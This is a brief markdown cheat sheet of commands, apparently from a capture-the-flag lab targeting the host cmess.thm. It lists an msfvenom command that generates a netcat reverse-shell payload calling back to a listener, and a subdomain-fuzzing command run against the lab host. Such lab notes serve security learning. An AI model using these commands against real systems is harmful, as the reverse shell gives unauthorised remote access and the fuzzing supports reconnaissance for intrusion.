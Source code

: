 # Important Commands

| Command | Description |
| :--- | :--- |
| Inline Paylod Linux | msfvenom -p cmd/unix/reverse\_netcat lhost=10.11.28.212 lport=8888 R |
| Subdomains from wordlist | fuzz -c -f sub-fighter -w **list.txt** -H "Host: FUZZ.**cmess.thm**" --**hw 290 -t 100** -u '[**http://cmess.thm**](http://cmess.thm)' |




